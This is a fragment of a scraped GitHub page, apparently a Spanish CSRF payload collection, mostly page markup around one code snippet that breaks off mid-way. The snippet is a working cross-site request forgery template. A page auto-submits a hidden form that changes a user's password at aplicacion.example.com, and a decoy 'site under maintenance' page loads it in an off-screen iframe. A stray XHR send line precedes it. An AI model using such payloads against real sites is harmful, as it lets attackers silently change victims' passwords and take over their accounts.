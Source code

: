 //xhr.send(body);
xhr.sendAsBinary(body);
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request-from-within-an-iframe" class="anchor" aria-hidden="true" href="#form-post-request-from-within-an-iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request from within an iframe</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;--! expl.html --&gt;

&lt;body onload="envia()"&gt;
&lt;form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php"&gt;
&lt;input type="text" id="pwd" name="pwd" value="otra nueva"&gt;
&lt;/form&gt;
&lt;body&gt;
&lt;script&gt;
function envia(){document.getElementById("formulario").submit();}
&lt;/script&gt;

&lt;!-- public.html --&gt;
&lt;iframe src="2-1.html" style="position:absolute;top:-5000"&gt;
&lt;/iframe&gt;
&lt;h1&gt;Sitio bajo mantenimiento. Disculpe las molestias&lt;/h1&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<--! expl.html -->

<body onload=&quot;envia()&quot;>
<form method=&quot;POST&quot;id=&quot;formulario&quot; action=&quot;http://aplicacion.example.com/cambia_pwd.php&quot;>
<input type=&quot;text&quot; id=&quot;pwd&quot; name=&quot;pwd&quot; value=&quot;otra nueva&quot;>
</form>
<body>
<script>
function envia(){document.getElementById(&quot;formulario&quot;).submit();}
</script>
